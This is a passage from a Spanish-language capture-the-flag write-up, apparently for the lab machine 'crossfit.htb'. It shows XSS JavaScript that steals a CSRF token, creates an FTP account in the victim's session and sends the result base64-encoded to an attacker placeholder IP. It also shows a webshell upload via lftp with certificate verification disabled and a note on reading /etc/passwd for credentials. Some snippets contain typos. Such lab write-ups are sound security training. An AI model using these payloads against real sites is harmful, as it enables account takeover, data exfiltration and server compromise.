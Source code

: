 ```javascript
// Filtramos por el token
var parser = new DOMParser();
var doc = parser.parseFormString(response, 'text/html');
var token = doc.getElementsByName("_token")[0].value;

var req2 = new XMLHttpRequest();
// Declaramos la data que vamos a tramitar por POST
var data = "username=sexcott&pass=sexcott123&_token=" + token; 
// Hacemos la petición para crear un nuevo usuario
req2.open('POST', 'http://ftp.crossfit.htb/accounts', false);
// Indicamos que haremos uso de credenciales
req2.withCredentials = true;
// Indicamos el content-type indicado para el formulario
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
// Mandamos la petición con la data antes definida.
req2.send(data);

var response2 = req2.responseText;
var req3 = new XMLHttpRequest();
req3.open("GET", "http://<nUeStRa-iP>/?page" + btoa(response2), false);
req3.send()
```

Revisando el codigo fuente recibido, podemos observar que nuestro usuario ya esta creado:
![[Pasted image 20230701093751.png]]

-------
#### Uploading a webshell with lftp  
Podemos iniciar sesión en el servicio **FTP** con la herramienta **lftp**, ya que necesitamos que la conexión este encryptada.
En primera nos aparecera un error que nos indica que no se puede verificar el certificado. Podemos eludir esto con el siguiente comando:
```
lfpt > set ssl:verify-certificate false
```

Con esto hecho, ya deberiamos poder listar el contenido del servidor **FTP**. Dentro del servidor **FTP** encontramos otro posible subdominio:
![[Pasted image 20230701100549.png]]

Dentro de este directorio tenemos permisos de escritura, asi que podemos proceder a subir una **WebShell** e intentar acceder a ella. Vemos que el archivo no existe y problamente sea porque nosotros no tenemos alcance tampoco a este nuevo subdominio, podemos volver aprovecharnos del **XSS** para que la victima vaya a la **WebShell** y se interprete:
```javascript
var req1 = new XMLHttpRequest();
req1.open("GET", "http://development-test.crossfit.htb/reverse.php", false);
req1.sed(null);
```

-----------
#### Cracking Hashes  
Si inspeccionamos el */etc/passwd* podemos ver que esta el usuario **ftpadm**, cuando este usuario existe, es probable que en */etc/* haya archivos de configuración que usualmente contienen credenciales.
Enumerando las carpetas webs, podemos encontrar una contraseña a la base de datos:
![[Pasted image 20230701101240.png]]
